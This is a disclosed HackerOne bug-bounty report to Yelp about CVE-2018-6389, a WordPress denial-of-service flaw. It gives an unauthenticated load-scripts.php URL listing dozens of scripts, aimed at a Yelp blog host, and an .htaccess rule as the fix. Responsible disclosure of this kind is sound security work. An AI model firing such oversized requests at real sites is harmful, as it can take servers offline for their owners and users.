 # DoS of https://blog.yelp.com/ and other WP instances via CVE-2018-6389

## Report Details
- **Report ID**: 753491
- **URL**: https://hackerone.com/reports/753491
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-12-07T04:20:24.590Z
- **Disclosed**: 2020-01-17T21:46:49.140Z

## Reporter
- **Username**: muhammaddaffa
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: yelp

## Vulnerability Information
Description:
There is possibility in /wp-admin/load-scripts.php script to generate large (~3Mb) amount of data via simple non-authenticated request to server.
The vulnerability is registered as https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6389

Details:
Detailed attack scenario is described for example here: https://baraktawily.blogspot.ru/2018/02/how-to-dos-29-of-world-wide-websites.html

Affected URL:
https://www.yelpreservations.com/blog/wp-admin/load-scripts.php?load=common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer

How to fix:
RewriteCond %{QUERY_STRING} ^.{1000,}$
RewriteRule ^WP-ADMIN/LOAD-SCRIPTS\.PHP$ - f
add this to your .htaccess

## Impact

DoS of the site and application server

## Attachments
No attachments

